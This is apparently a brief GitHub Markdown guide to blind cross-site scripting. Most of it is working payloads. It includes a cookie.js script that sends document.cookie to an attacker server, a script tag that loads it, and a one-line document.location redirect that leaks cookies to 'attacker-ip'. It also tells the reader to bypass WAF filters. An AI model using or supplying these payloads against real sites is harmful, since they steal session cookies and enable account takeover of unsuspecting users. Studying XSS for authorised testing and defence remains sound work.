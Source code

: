 # Identifing blind xss
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js
<br/>
``` var request = new XMLHttpRequest();
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);
request.send() ``` <br/>

<br/>
### 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
<script>document.location='http://attacker-ip/?c='+document.cookie</script>
